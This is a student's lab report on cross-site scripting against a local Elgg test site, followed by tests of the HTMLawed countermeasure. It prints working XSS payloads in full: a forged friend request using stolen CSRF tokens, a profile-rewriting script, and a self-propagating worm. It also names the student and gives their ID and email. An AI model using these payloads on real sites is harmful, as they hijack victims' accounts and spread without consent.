# Lab11

**Name:** 黎诗龙

**SID:** 11811407

## Task1

I add it here



Then I use Boby's account to see this:



## Task2

I also add it into the brief description, and using Boby's account to see this



## Task3

I use `ifconfig` to see my IPv4 address `192.168.44.133`, and add the script into Samy's profile.

Then I use Boby's account to see the Samy's profile. 

Here I steal the cookie:



## Task4

First launch an attempt to add Samy as a friend to see the Samy's id is `47`.



url = `http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1607265858&__elgg_token=uYYKAnlB7lUs2nCWFEd_pQ&__elgg_ts=1607265858&__elgg_token=uYYKAnlB7lUs2nCWFEd_pQ`, contains `ts` and `token`.

Then I modify the script as this:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
   	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;
	//Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```



Then I use Boby's account to see Samy's profile, then they automatically became friends.






### Question1

To verify the authentication of the user, to check who the user is.

### Question2

It doesn't work, it becomes inner text and cannot be executed.


## Task5

First launching a editing action and using Wireshark to capture it, I found that the request URL is http://www.xsslabelgg.com/action/profile/edit.



and the post body is in the following picture.



Here is the post body.

`__elgg_token=aIXlkRH3hLVF5ibk4VD6Vg&__elgg_ts=1607268605&name=Boby&description=&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=45`

Then I add this into the `About me` section, where I modify the `contactemail` field to my email address `11811407@mail.sustech.edu.cn`.

```js
<script type="text/javascript">
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
    var content = token+ts+"&name="+userName+"&description=&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=11811407@mail.sustech.edu.cn&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid)
    {
    	//Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
	}
}
</script>
```

After editing Samy's profile, using Boby's account to see the Samy's profile. Then go back to Boby's profile, it succeeds.



### Question3

In avoidance of changing the Samy's (the attacker's) profile himself.

After removing this sentence, I find this:



## Task6

```js
<script type="text/javascript" id="worm">
window.onload = function(){
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var content = token+ts+"&name="+userName+"&description="+wormCode+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid)
    {
    	//Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
        
        //add friend:
        var friend="http://www.xsslabelgg.com/action/friends/add?friend="+samyGuid+ts+token;
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET",friend,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        Ajax.send();
	}
    alert("Worm propogation successfully. Your username is "+userName);
}
</script>
```

After I add it into Samy's `about me`, then I post the request, and return to the home page, and I get this message.



Then I use Boby's account to visit the Samy's profile and see this.



And friend added successfully:



Then I use Boby's account to see the profile himself, and see this.



Then I use the Alice's account to see the Boby's profile, and see this.



And simultaneously adding friend successfully. 



## Task7

### 1

After activating the `HTMLawed`, visiting Samy's profile using Alice's account, then I see this, the `script` tag disappears.



The script doesn't work, and the tag `script` is gone.

### 2



After activating both countermeasures, it shows like this above. The script doesn't work, and the tag `script` is gone.

And after re-save the profile, it shows like this:




## Observations

In the task 7, I found that in the `var headeraTag` becomes `""` however it is only the string, maybe the plugin use patterns to match it.


In the last picture, I found that there are 2 `document.write()`, it is confusing but interesting, I still not find the appropriate explanation to it, hope prof. Zhang will help. (==Note: this observation is from my classmate Zhang Jiaxi (11812318)==).

